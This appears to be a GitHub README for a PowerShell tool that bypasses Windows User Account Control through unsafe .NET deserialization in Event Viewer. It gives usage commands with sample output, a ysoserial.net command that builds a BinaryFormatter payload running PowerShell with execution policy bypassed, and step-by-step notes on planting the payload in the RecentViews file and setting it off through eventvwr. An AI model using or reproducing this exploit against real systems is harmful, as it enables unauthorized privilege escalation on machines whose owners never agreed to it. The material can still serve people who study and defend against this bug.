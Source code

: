 # EventViewer-UACBypass

- RCE through Unsafe .Net Deserialization in Windows Event Viewer which helps bypass UAC.
- Full credits to [Orange Tsai](https://twitter.com/orange_8361)
---
### Usage
```ps1
PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1

PS C:\Windows\Tasks> Invoke-EventViewer 
[-] Usage: Invoke-EventViewer commandhere
Example: Invoke-EventViewer cmd.exe

PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
[+] Running
[1] Crafting Payload
[2] Writing Payload
[+] EventViewer Folder exists
[3] Finally, invoking eventvwr
```
---
### Working
i) First, the script adds commands to be run to the file `C:\Windows\Tasks\EventViewerRCE.ps1`
- `Stop-Process -name mmc*` : Is used to close Microsoft Management Console.
- After that the command to be executed is added.


ii) Then it crafts payload which runs `C:\Windows\Tasks\EventViewerRCE.ps1` script. The base64 payload was generated using [ysoserial.net](https://github.com/pwntester/ysoserial.net) :
```ps1
ysoserial.exe -o base64 -f BinaryFormatter -g DataSet -c "powershell.exe -nop -exec bypass C:\Windows\Tasks\EventViewerRCE.ps1"
```
- Decoded base64 payload is stored in `C:\Windows\Tasks\p4yl0ad`

iii) When `WriteFile` function is executed, it checks if the `Event Viewer` folder exists in AppData and it it doesn't then we create the folder. Finally storing our base64 decoded payload in `RecentViews` file under this folder.

iv) In the end, `eventvwr` is executed which then executes our payload.

---

### Reference
- https://twitter.com/orange_8361/status/1518970259868626944
